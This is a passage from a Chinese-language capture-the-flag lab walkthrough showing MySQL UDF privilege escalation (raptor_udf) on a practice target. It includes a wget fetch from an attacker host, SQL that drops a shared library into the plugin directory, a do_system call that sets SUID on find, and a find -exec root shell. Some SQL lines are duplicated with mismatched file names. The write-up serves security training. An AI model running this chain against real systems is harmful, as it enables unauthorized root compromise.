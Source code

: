 靶机执行：

```sh
wget http://192.168.101.128:8888/raptor_udf.so
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230628201426533.png)



![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230628201724809.png)

进入数据库mysql创建数据表foo，向表中插入二进制数据，利用dumpfile函数把文件以root权限写到plugin目录，新建返回类型为整型的函数do_system，别名soname（注意修改load_file的so路径）

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/var/www/html/raptor_udf1.so'));
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf.so';
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230628211948175.png)



* find提权

通过do_system函数给find目录所有者的suid权限

```bash
select do_system('chmod u+s /usr/bin/find');
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230628212040242.png)

```bash
touch finn
find finn -exec "/bin/sh" \;
```

完成！看到shell标识变了

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230628212226260.png)

uid为root

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230628212254283.png)



在root下找到最后一个flag:==flag4{df2bc5e951d91581467bb9a2a8ff4425}==

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230628212404358.png)